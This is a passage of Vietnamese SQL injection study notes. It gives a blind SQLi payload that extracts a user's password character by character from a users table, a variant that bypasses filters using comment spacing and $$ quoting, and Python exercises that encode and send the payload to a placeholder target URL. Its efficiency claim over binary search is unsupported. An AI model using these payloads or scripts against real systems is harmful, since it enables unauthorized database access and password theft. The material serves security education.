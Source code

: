 
##### **Comparative Precomputation (Blind SQLi):**

1. **Ý tưởng:**
   - Sử dụng SQLi dạng **blind** để lấy từng ký tự một.
   - Payload sử dụng phép so sánh để dò tìm:
     ```sql
     ' AND id=(SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='itsmaria')--
     ```
   - Thay khoảng trắng và `'` để bypass:
     ```sql
     '/**/AND/**/id=(SELECT/**/ASCII(SUBSTRING(password,1,1))/**/FROM/**/users/**/WHERE/**/username=$$itsmaria$$)--
     ```

2. **Kết quả:**
   - Truy vấn trả về một dòng dữ liệu nếu ký tự đầu tiên khớp với điều kiện.

3. **Phân tích:**
   - Mỗi yêu cầu sẽ khớp một ký tự từ chuỗi cần dò.
   - Hiệu quả hơn các thuật toán `binary search` truyền thống (7 truy vấn/ký tự).

---

#### **3. Bài tập Python:**

1. **Viết script tự động tạo payload:**
   - Mã Python cơ bản:
     ```python
     def encode_payload(base_payload):
         return base_payload.replace(" ", "/**/").replace("'", "$$")

     payload = "' AND id=(SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='itsmaria')--"
     encoded_payload = encode_payload(payload)
     print(f"Encoded Payload: {encoded_payload}")
     ```

2. **Tự động gửi truy vấn:**
   - Thêm thư viện `requests` để gửi payload qua HTTP:
     ```python
     import requests

     def send_payload(url, payload):
         encoded_payload = encode_payload(payload)
         response = requests.get(url, params={"u": encoded_payload})
         return response.text

     url = "http://target.com/find-user"
     payload = "' AND id=(SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='itsmaria')--"
     print(send_payload(url, payload))
     ```

---


# 7. Khai thác SQL Injection dựa trên lỗi (Error-Based SQLi)

---